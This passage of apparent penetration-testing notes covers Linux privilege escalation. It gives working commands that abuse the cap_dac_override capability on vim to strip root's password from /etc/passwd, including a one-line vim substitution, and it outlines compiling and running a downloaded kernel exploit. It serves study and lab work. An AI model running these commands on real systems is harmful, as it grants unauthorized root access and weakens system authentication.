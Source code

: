 ````
!["Capabilities img"](../Ressources/IMG/linux-priv-esc-capabilities-3.png)

- To enumerate all existing capabilities for all existing binary executables on a Linux system, we can use the following command:

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

- If we gained access to the system with a low-privilege account, then discovered the dac_cap_override capability:

  ```bash
  getcap /usr/bin/vim.basic

  cat /etc/passwd | head -n1
  # We can use the cap_dac_override capability of the /usr/bin/vim binary to modify a system file:
  /usr/bin/vim.basic /etc/passwd
        # then modify the root ( ligne 1) line with vim
        # delete the x ( root:x:0:0 => root::0:0)

  #Now, we can see that the x in that line is gone, which means that
  #we can use the command su to log in as root without being asked
  #for the password.

  # alternative
  echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd

  cat /etc/passwd | head -n1
  ```

**Ressources**
[Hacktrick capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
[Linux capabilities doc](https://man7.org/linux/man-pages/man7/capabilities.7.html)

## Linux Internals-based Privilege Escalation

###### Kernel Exploits

- A quick way to identify exploits is to issue the command uname -a and search Google for the kernel version.

```bash
# exploit

# search kernel version
uname -a
cat /etc/lsb-release

# search exploit
# download it
# run it with
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
./kernel_exploit

```

> Note: Kernel exploits can cause system instability so use caution when running these against a production system.

###### Shared Libraries

````